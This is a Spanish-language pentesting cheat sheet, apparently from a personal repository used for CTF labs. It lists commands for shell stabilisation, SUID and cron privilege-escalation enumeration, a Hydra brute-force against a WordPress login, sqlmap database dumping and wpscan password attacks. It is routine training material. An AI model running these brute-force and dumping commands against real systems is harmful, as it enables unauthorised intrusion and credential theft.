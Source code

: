 # COMANDOS MAS COMUNES PENTESTING 🚀

## Estabilizar shell 🔧
```
/usr/bin/script -qc /bin/bash /dev/null
Ctrl+z
stty raw -echo;fg
```
## NMAP básico 🔧
nmap -sC -sV -oN initial $IP

## Escalar priveligios 📖
```
cat /etc/crontab
```
Buscamos ficheros que con permiso SUID
	
SUID bits can be dangerous, some binaries such as passwd need to be run with elevated privileges (as its resetting your password on the system), however other custom files could that have the SUID bit can lead to all sorts of issues.
```
find / -perm -u=s -type f 2>/dev/null
getcap -r / 2>/dev/null
```
Busqueda de ficheros ejecuables:
```
find / -type f -name "*.sh" 2>/dev/null
```

https://gtfobins.github.io/#

## Reverse shell 📖
https://ironhackers.es/herramientas/reverse-shell-cheat-sheet/

## Técnicas varias 🔧
_Abrir terminal con python:_ 
```
python -c 'import pty;pty.spawn("/bin/bash")'
```
_Uso de hydra:_ 
```
hydra -L fsocity.dic -p test 10.10.192.186 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.192.186%2Fwp-admin%2F&testcookie=1:F=Invalid username' otra opción final: /S=302
```
_Encriptar gpg:_
```
gpg --list-keys --> listar claves
gpg --import /var/backup/root@harder.local.pub --> importar claves
gpg -er root command --> encryptar archivo con la clave
```
_Ver puertos abiertos:_
```
sudo netstat -tulpn | grep LISTEN
```
_sqlmap:
```
sqlmap -r request.txt --dbs -->traer bases de datos
sqlmap -r request.txt -D wordpress -tables --> traer tablas
sqlmap -r request.txt --dump -D "database" -T "tabla"
```
_wordpress:
```
wpscan --url site.wekor.thm/wordpress -e vp,vt,cb,u
wpscan --url http://site.wekor.thm/wordpress/-U user.txt -P /usr/share/wordlists/rockyou.txt -vv
```
